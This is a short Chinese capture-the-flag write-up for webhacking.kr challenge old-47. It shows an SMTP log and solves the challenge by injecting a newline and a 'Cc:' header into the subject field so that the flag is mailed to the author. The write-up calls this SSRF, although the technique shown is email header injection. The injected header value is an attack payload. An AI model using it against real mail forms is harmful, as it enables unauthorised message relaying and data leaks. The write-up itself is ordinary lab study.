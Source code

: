 # old-47_150

* 這一題一進去可以發現一個 email subject
* 直接送出，會顯示一些資訊
    ```=
    2020-07-03 21:42:01 CLIENT -> SERVER: EHLO webhacking.kr
    2020-07-03 21:42:01 CLIENT -> SERVER: STARTTLS
    2020-07-03 21:42:01 CLIENT -> SERVER: EHLO webhacking.kr
    2020-07-03 21:42:01 CLIENT -> SERVER: AUTH LOGIN
    2020-07-03 21:42:02 CLIENT -> SERVER: <credentials hidden>
    2020-07-03 21:42:02 CLIENT -> SERVER: <credentials hidden>
    2020-07-03 21:42:02 CLIENT -> SERVER: MAIL FROM:<no-reply@webhacking.kr>
    2020-07-03 21:42:02 CLIENT -> SERVER: RCPT TO:<no-existed@webhacking.kr>
    2020-07-03 21:42:02 CLIENT -> SERVER: DATA
    2020-07-03 21:42:03 CLIENT -> SERVER: Date: Sat, 4 Jul 2020 06:42:01 +0900
    2020-07-03 21:42:03 CLIENT -> SERVER: To: no-existed@webhacking.kr
    2020-07-03 21:42:03 CLIENT -> SERVER: From: no-reply@webhacking.kr
    2020-07-03 21:42:03 CLIENT -> SERVER: Subject: Flag of webhacking.kr old-47 chall
    2020-07-03 21:42:03 CLIENT -> SERVER: Message-ID: <yRsgo5VtPz9etw2ExTr92VymMUVyG6WBIKXxsIU25xQ@webhacking.kr>
    2020-07-03 21:42:03 CLIENT -> SERVER: MIME-Version: 1.0
    2020-07-03 21:42:03 CLIENT -> SERVER: Content-Type: text/plain; charset=iso-8859-1
    2020-07-03 21:42:03 CLIENT -> SERVER:
    2020-07-03 21:42:03 CLIENT -> SERVER: FLAG{?????}
    2020-07-03 21:42:03 CLIENT -> SERVER:
    2020-07-03 21:42:03 CLIENT -> SERVER: .
    2020-07-03 21:42:04 CLIENT -> SERVER: QUIT
    ```
* 這時，我想到了 ssrf
* 因為這個輸入匡中控制的是 subject 的部分，所以想辦法換行並且加上 To: your_email 說不定可以收到 flag
* 可以開 burp 或是單純的 textarea 標籤也可以做到相同的效果，不過要記得把 maxlength 變大一點
* 之後我嘗試輸入 
    ```
    Flag of webhacking.kr old-47 chall
    To: 39701965a@gmail.com
    ```
    不過我沒有收到 mail
* 所以我想到了[副本](https://www.thenewslens.com/article/6984)，所以我稍微改一下 payload
    ```
    Flag of webhacking.kr old-47 chall
    Cc: 39701965a@gmail.com
    ```
    然後就收到 flag 拉

